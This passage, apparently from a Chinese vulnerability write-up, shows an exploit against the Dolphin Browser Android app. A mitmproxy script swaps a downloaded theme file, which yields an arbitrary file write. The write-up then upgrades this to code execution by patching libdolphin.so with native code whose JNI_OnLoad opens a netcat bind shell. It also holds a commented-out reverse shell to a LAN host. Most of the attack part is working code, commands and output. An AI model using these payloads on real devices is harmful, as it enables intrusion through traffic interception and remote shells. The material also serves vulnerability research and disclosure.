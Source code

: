 ```
        with open("Alonso_P.dwp", "r") as f:
            modified = f.read()
            response.content = modified
            response.headers["Content-Length"] = [len(modified)]
            f.close()
    except IOError as e:
        raise e

    # Return response
    #
    flow.reply(response)

```

使用mitmdump运行脚本

```
mitmdump -s inject_evilso.py

```

在手机上使用海豚浏览器，下载并应用主题。观察到mitmdump的输出

```
192.168.8.155 GET https://opsen-static.dolphin-browser.com/resources/themestore/Grassy.dwp
 << 200 OK 210.39kB

```

此时查看海豚浏览器私有目录，压缩包中放置的恶意文件已经写入成功。

![image](http://drops.javaweb.org/uploads/images/d12f06a02a763fe1e42f8154d1ecb33ebf185996.jpg)

3. 漏洞利用——patch so实现代码执行
-----------------------

要将任意文件写升级为代码执行，可以考虑对海豚浏览器二次加载的库进行patch，与Swift输入法漏洞利用过程中patch odex文件所不同，这里选择的是patch上述目录下的libdolphin.so。

首先用ndk编译一个恶意的libdolphin.so

```
#include <stdio.h>
#include <jni.h>
#include <stdlib.h>
#include <unistd.h>
#include <android/log.h>

#define LOG "heen"
#define LOGI(...)  __android_log_print(ANDROID_LOG_INFO,LOG,__VA_ARGS__)

jint JNICALL JNI_OnLoad(JavaVM* vm, void* reserved)
{
    JNIEnv* env = NULL;
    jint result = -1;
    int ret;

    if ((*vm)->GetEnv(vm, (void**) &env, JNI_VERSION_1_4) != JNI_OK) {
        return -1;
    }
    /* success -- return valid version number */
    result = JNI_VERSION_1_4;

    LOGI("Hello, World");
    //ret = system("nc 192.168.8.163 8088|/system/bin/sh|nc 192.168.8.163 9999");
    ret = system("nc -ll -p 6666 -e /system/bin/sh");
    LOGI("ret value of system is %d",ret);

```